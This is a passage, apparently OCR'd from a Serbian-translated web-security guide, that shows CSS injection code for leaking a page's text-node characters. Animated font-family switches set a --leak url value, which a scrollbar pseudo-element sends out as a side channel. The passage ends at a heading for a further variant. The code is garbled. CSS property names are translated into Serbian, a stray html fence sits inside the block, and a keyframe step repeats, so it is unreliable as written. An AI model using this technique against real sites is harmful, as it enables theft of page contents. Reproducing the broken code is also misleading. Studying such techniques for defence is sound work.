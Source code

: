 ````css
45% { font-family: has_I, rest; --leak: url(?i); }
46% { font-family: rest; }
50% { font-family: has_J, rest; --leak: url(?j); }
51% { font-family: rest; }
55% { font-family: has_K, rest; --leak: url(?k); }
56% { font-family: rest; }
60% { font-family: has_L, rest; --leak: url(?l); }
61% { font-family: rest; }
65% { font-family: has_M, rest; --leak: url(?m); }
66% { font-family: rest; }
70% { font-family: has_N, rest; --leak: url(?n); }
71% { font-family: rest; }
75% { font-family: has_O, rest; --leak: url(?o); }
76% { font-family: rest; }
80% { font-family: has_P, rest; --leak: url(?p); }
81% { font-family: rest; }
85% { font-family: has_Q, rest; --leak: url(?q); }
86% { font-family: rest; }
90% { font-family: has_R, rest; --leak: url(?r); }
91% { font-family: rest; }
95% { font-family: has_S, rest; --leak: url(?s); }
96% { font-family: rest; }
}

/* increase width char by char, i.e. add new char to prefix */
@keyframes loop {
0% { width: 0px }
1% { width: 20px }
2% { width: 40px }
3% { width: 60px }
4% { width: 80px }
4% { width: 100px }
```html
5% { širina: 120px }
6% { širina: 140px }
7% { širina: 0px }
}

div::-webkit-scrollbar {
pozadina: plava;
}

/* side-channel */
div::-webkit-scrollbar:vertical {
pozadina: plava var(--leak);
}
````

### Curenje teksta čvora (III): otkrivanje skupa znakova pomoću podrazumevanog fonta sakrivanjem elemenata (bez potrebe za spoljnim sredstvima) <a href="#text-node-exfiltration-ii-leaking-the-charset-with-a-default-font" id="text-node-exfiltration-ii-leaking-the-charset-with-a-default-font"></a>
